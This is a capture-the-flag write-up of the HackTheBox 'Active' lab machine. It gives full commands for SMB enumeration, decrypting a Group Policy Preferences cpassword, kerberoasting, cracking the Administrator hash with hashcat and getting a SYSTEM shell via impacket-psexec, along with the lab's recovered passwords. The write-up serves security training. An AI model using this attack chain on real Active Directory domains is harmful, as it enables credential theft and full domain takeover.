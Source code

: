 # Active [HTB](https://app.hackthebox.com/machines/148)
![active-01](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Active/img/active-01.png)


## Recon

After adding the target to my `/etc/hosts` file I start scanning for open ports:

```bash
nmap -p- --min-rate 10000 active.htb
```

![ports-02](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Active/img/ports-02.png)


There were also rpc related ports at the buttom, but the above ports are the most relevant. Let's run a version detection scan on them:

```bash
nmap -p 53,88,135,139,389,445,464,593,636,3268,3269,5722,9389 -sCV active.htb -oN nmap.result
```

![nmap-res-03](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Active/img/nmap-res-03.png)

![nmap-res-04](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Active/img/nmap-res-04.png)


We have the following:

+ A DNS server on port 53.
+ The Kerberos service on ports 88, 464.
+ An rpc endpoint-mapper on port 135.
+ NetBIOS on port 139.
+ LDAP services on ports 389, 3268.
+ An SMB server on port 445.
+ Other rpc related services at ports 593, 5722.
+ A tcpwrapper service on ports 636, 3269.
+ Message Farming on port 9389.


We can probably make an educated guess that we are dealing with an Active-Directory domain controller based on the services we see available on the system (DNS, LDAP, Kerberos, etc). We can also conclude that the target domain is `active.htb`, the target OS is probably a 2008 Windows R2 server, and that message singing is enabled and required. 


The fact that RPC and SMB are enabled on the target opens up unique possibilities for domain specific reconnaissance, which can open up vast attack vectors againts the domain. 


Let's begin!


### RPC & SMB Ports 135, 139, 445


At first I try to connect to the target's rpc with a null session:

```bash
rpcclient -U "" -N active.htb 
```

This works, and we get a connection, but trying to enumerate the domain with commands like `enumdomusers` and `enumdomgroups` fails with insufficient privileges. 


Then I ran different tools like `crackmapexec` and `ldapsearch` as well as `enum4linux`. They didn't bring super useful results but `enum4linux -a active.htb` did manage to map the SMB shares on the target:

![smb-shares-05](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Active/img/smb-shares-05.png)


The available shares are highlighed in red at the top. Out of all the shares we can connect and list the contents of the `Replication` share.


If we connect to this share and list it's contents, we will see a `active.htb` directory. I copied this directory recursively using the following set of commands:


```bash
smbclient -N \\\\active.htb\\Replication
smb: \> prompt
smb: \> recurse
smb: \> mget active.htb
```

![mget-06](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Active/img/mget-06.png)


If we list the contents of this directory with `tree active.htb` we can see the following:

![tree-07](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Active/img/tree-07.png)


Looks like we have two group policy objects in here, let's take a look at the files. 


+ `{6AC1786C-016F-11D2-945F-00C04fB984F9}`


This is the group policy you can see near the buttom of the `tree` output. It has mainly two files, `GPT.INI` and `GptTmpl.inf`. None of these files are super useful in getting access to the system. 


+ `{31B2F340-016D-11D2-945F-00C04FB984F9}`

This is the group policy you see near the top of the `tree` output. Here we have five files, `GPT.INI` and `GPE.INI` are not super important. Then there is the `GptTmpl.inf` file, which holds some password policy information like max password age, length, complexity, etc. As well as some kerberos policies. This is more intersting, but not super useful at the moment. 


However, then we have the `Groups.xml` file, and this is where things get really interesting. 


The file reads as such:

```xml
<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups>
```


We can see the domain's `Ticket Granting Service` service account, along with it's AES encrypted password.

We can try to decrypt the password on our Kali machine as such:

```bash
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
```

![decrypt-08](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Active/img/decrypt-08.png)


The password for the service account is `GPPstillStandingStrong2k18`, and now we have credentials to work with. This opens up a lot of active directory specific attacks, like [kerberosting](https://www.sentinelone.com/cybersecurity-101/what-is-kerberoasting-attack/). 


To find kerberostable user accounts we can use the recently found credentials with impacket's `GetUserSPNs` tool as such:

```bash
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip active.htb -request
```

![kerberoast-09](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Active/img/kerberoast-09.png)


Which results in the Administrator's account no less!  


Let's save the entire thing to a file and try to crack it with `hashcat` as such:

```bash
hashcat -m 13100 admin.hash rockyou.txt
```

![cracked-10](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Active/img/cracked-10.png)


I use my host GPU for the computation, which cracks after one second to `Ticketmaster1968`, from here I immediately go for psexec to give myself a shell as NT_Authority on this box:

```bash
impacket-psexec active.htb/Administrator:Ticketmaster1968@active.htb
```

![root-11](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Active/img/root-11.png)
